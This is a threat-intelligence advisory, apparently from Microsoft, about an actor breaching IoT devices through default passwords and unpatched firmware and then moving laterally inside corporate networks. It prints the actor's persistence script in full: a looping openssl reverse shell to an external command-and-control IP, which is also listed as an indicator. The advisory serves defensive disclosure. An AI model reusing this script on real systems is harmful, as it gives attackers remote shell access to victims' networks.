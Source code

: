 



# Three IoT devices





In April, security researchers in the Microsoft Threat Intelligence Center discovered infrastructure of a known adversary communicating to several external devices. Further research uncovered attempts by the actor to compromise popular IoT devices (a VOIP phone, an office printer, and a video decoder) across multiple customer locations. The investigation uncovered that an actor had used these devices to gain initial access to corporate networks. In two of the cases, the passwords for the devices were deployed without changing the default manufacturer’s passwords and in the third instance the latest security update had not been applied to the device.





These devices became points of ingress from which the actor established a presence on the network and continued looking for further access. Once the actor had successfully established access to the network, a simple network scan to look for other insecure devices allowed them to discover and move across the network in search of higher-privileged accounts that would grant access to higher-value data. After gaining access to each of the IoT devices, the actor ran _tcpdump_ to sniff network traffic on local subnets. They were also seen enumerating administrative groups to attempt further exploitation. As the actor moved from one device to another, they would drop a simple shell script to establish persistence on the network which allowed extended access to continue hunting. Analysis of network traffic showed the devices were also communicating with an external command and control (C2) server.





\--`contents of`_`[IOT Device]`_` file--

#!/bin/sh
export `_`[IOT Device]` _`` ="-qws -display :1 -nomouse" echo 1|tee /tmp/.c;sh -c '(until (sh -c "openssl s_client -quiet -host 167.114.153.55 -port 443 |while : ; do sh && break; done| openssl s_client -quiet -host 167.114.153.55 -port 443"); do (sleep 10 && cn=$(( `cat /tmp/.c`+1)) && echo $cn|tee /tmp.c && if [ $cn -ge 30 ]; then (rm /tmp/.c;pkill -f 'openssl'); fi);done)&' &

--end contents of file--``





_Figure 1: script used to maintain network persistence_





The following IP addresses are believed to have been used by the actor for command and control (C2) during these intrusions:





167.114.153.55
